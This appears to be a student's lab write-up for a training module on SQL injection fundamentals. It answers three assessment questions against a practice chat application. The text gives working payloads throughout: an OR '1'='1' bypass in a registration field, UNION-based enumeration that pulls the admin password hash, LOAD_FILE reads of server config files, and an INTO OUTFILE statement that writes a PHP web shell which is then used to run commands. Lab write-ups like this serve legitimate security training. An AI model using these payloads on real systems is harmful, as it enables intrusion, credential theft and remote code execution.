

# Section 17: Skills Assessment - SQL Injection Fundamentals

Module: 17. SQL Injection Fundamentals

---

## Questions & Answers

### 1. What is the password hash for the user 'admin'?

Context:
- I tried several payloads with the `login.php` but cannot login as `admin` so tried to create an account to see what's behind the authentication step:
```
POST /api/register.php HTTP/1.1
Host: 154.57.164.67:31785
Cookie: PHPSESSID=89mpl7r78jqa797pd6on9h9l2d
Content-Length: 108
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="143", "Not A(Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://154.57.164.67:31785
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://154.57.164.67:31785/register.php
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

username=test&password=test%40123%241&repeatPassword=test%40123%241&invitationCode=abcd-efgh-1234' OR '1'='1
```

- Login and get inside where we can leverage the search box for SQL Injection, you can test by send an `hi` message to `@@admin`:
```
hi => get normal result hi (our message) (acts normal)
hi' -- => get blank (acts differently)
hi" -- => get there's nothing here yet! (likely it search hi" --, not the hi)
hi') -- =>  get normal result hi (our message) (acts normal) => we can leverage from here
```
- Emunerate the number of columns:
```
hi') ORDER BY 4 -- => get normal result hi (our message) (acts normal)
hi') ORDER BY 5 -- => get blank (acts differently)
```
- Confirmed 4 columns:
```
hi') UNION SELECT 1,2,3,4 -- =>  you can see number 3 (the message) & 4 (the time) from the @@admin => we can leverage from here
```
- Database emuneration:
```
hi') UNION SELECT 1,2,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES -- => besides information_schema and performance_schema, the tables we have to focus:

chattr.Users
chattr.InvitationCodes
chattr.Messages

hi') UNION SELECT 1,2,COLUMN_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Users' -- => got: UserID, Username, Password, InvitationCode, AccountCreated
```
- Get the password hash of admin:
```
hi') UNION SELECT 1,2,Password,Username FROM chattr.Users WHERE Username = 'admin' -- => got: $argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU
```

**Answer:** `$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU`

---

### 2. What is the root path of the web application?

Context:
- Using `LOAD_FILE` to emunerate the internal file system:
```
hi') UNION SELECT 1, 2, LOAD_FILE('/etc/nginx/nginx.conf'), 4 --

user www-data; worker_processes auto; pid /run/nginx.pid; error_log /var/log/nginx/error.log; include /etc/nginx/modules-enabled/*.conf; events { worker_connections 768; # multi_accept on; } http { ## # Basic Settings ## sendfile on; tcp_nopush on; types_hash_max_size 2048; # server_tokens off; # server_names_hash_bucket_size 64; # server_name_in_redirect off; include /etc/nginx/mime.types; default_type application/octet-stream; ## # SSL Settings ## ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE ssl_prefer_server_ciphers on; ## # Logging Settings ## access_log /var/log/nginx/access.log; ## # Gzip Settings ## gzip on; # gzip_vary on; # gzip_proxied any; # gzip_comp_level 6; # gzip_buffers 16 8k; # gzip_http_version 1.1; # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript; ## # Virtual Host Configs ## include /etc/nginx/conf.d/*.conf; include /etc/nginx/sites-enabled/*; } #mail { # # See sample authentication script at: # # http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript # # # auth_http localhost/auth.php; # # pop3_capabilities "TOP" "USER"; # # imap_capabilities "IMAP4rev1" "UIDPLUS"; # # server { # listen localhost:110; # protocol pop3; # proxy on; # } # # server { # listen localhost:143; # protocol imap; # proxy on; # } #}

hi') UNION SELECT 1, 2, LOAD_FILE('/etc/nginx/sites-enabled/default'), 4 --

server { listen 443 ssl; server_name chattr.htb; ssl_password_file /root/chattr.key.pass; ssl_certificate /etc/ssl/certs/chattr.crt; ssl_certificate_key /etc/ssl/private/chattr.key; ssl_protocols TLSv1.2 TLSv1.3; ssl_ciphers HIGH:!aNULL:!MD5; root /var/www/chattr-prod; location / { index index.php; try_files $uri $uri/ /index.php?$query_string; } location ~ \.php$ { include snippets/fastcgi-php.conf; fastcgi_pass unix:/run/php/php8.2-fpm.sock; } location ^~ /includes/ { deny all; } }
```
- Found `root /var/www/chattr-prod;` => the root path of the web application

**Answer:** `/var/www/chattr-prod`

---

### 3. Achieve remote code execution, and submit the contents of /flag_XXXXXX.txt below.

Context:
- Emunerate the current user:
```
hi') UNION SELECT 1,2,user(),4 -- => got: chattr_dbUser@localhost
hi') UNION SELECT 1, 2, privilege_type, 4 FROM information_schema.user_privileges -- => got: FILE
```
- Confirmed we have writing privileges
```
hi') UNION SELECT '', '', '<?php system($_REQUEST["cmd"]); ?>', '' INTO OUTFILE '/var/www/chattr-prod/shell.php' -- 
```
- Access the shell:
```
/shell.php?cmd=id => uid=33(www-data) gid=33(www-data) groups=33(www-data)
/shell.php?cmd=ls / => bin boot dev etc flag_876a4c.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
/shell.php?cmd=cat /flag_876a4c.txt => 061b1aeb94dec6bf5d9c27032b3c1d8d
```

**Answer:** `061b1aeb94dec6bf5d9c27032b3c1d8d`

---

[Back to Module Index](./README.md)
